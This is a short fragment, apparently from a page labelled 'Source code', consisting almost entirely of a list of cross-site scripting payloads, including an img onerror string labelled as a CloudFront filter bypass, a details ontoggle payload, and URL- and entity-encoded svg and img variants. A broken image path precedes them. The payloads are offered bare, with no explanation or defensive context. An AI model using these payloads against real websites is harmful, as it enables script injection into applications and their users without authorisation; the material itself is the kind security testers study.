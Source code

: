 
">%0D%0A%0D%0A<x '="foo"><x foo='><img src=x onerror=javascript:alert(`cloudfrontbypass`)//'>
">'><details/open/ontoggle=confirm('XSS')>
6'%22()%26%25%22%3E%3Csvg/onload=prompt(1)%3E/
&quot;&gt;&lt;img src=x onerror=confirm(1);&gt;